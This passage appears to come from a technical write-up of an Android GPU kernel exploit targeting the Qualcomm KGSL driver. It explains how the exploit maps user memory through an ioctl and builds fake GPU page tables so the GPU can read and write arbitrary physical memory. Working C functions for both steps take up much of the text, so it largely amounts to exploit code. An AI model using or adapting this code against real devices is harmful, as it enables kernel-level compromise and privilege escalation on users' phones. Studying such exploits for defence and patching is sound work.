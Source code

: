 #### Memory Mapping

```c
int kgsl_map(int fd, unsigned long addr, size_t len, uint64_t *gpuaddr) {
    struct kgsl_map_user_mem req = {
        .len = len,
        .offset = 0,
        .hostptr = addr,
        .memtype = KGSL_USER_MEM_TYPE_ADDR,
    };
    int ret = ioctl(fd, IOCTL_KGSL_MAP_USER_MEM, &req);
    if (ret) return ret;
    *gpuaddr = req.gpuaddr;
    return 0;
}
```

#### Command Submission

The exploit crafts command buffers that the GPU will execute, allowing it to manipulate memory mappings and perform reads/writes to arbitrary physical addresses.

---

### 2. Page Table Manipulation

The core of the exploit is the ability to create fake GPU page tables that map arbitrary physical addresses into the GPU's address space. This is achieved by allocating large buffers and filling them with crafted page table entries.

#### Page Table Setup

```c
int setup_pagetables(uint8_t *tt0, uint32_t pages, uint32_t tt0phys, uint64_t fake_gpuaddr, uint64_t target_pa) {
    for (int i = 0; i < pages; i++) {
        uint64_t *level_base = (uint64_t *)(tt0 + (i * PAGE_SIZE));
        memset(level_base, 0x45, 4096);
        // Calculate indices for each page table level
        uint64_t level1_index = (fake_gpuaddr & LEVEL1_MASK) >> LEVEL1_SHIFT;
        uint64_t level2_index = (fake_gpuaddr & LEVEL2_MASK) >> LEVEL2_SHIFT;
        uint64_t level3_index = (fake_gpuaddr & LEVEL3_MASK) >> LEVEL3_SHIFT;
        // Set up entries to point to the target physical address
        level_base[level1_index] = (uint64_t)tt0phys | ENTRY_VALID;
        level_base[level2_index] = (uint64_t)tt0phys | ENTRY_VALID;
        level_base[level3_index] = (uint64_t)(target_pa | ENTRY_VALID | ENTRY_RW | ENTRY_MEMTYPE_NNC | ENTRY_OUTER_SHARE | ENTRY_AF | ENTRY_NG);
        // ...additional entries for stability
    }
    return 0;
}
```

By mapping the target physical address into the GPU's address space, the exploit can later instruct the GPU to read or write to that address.

---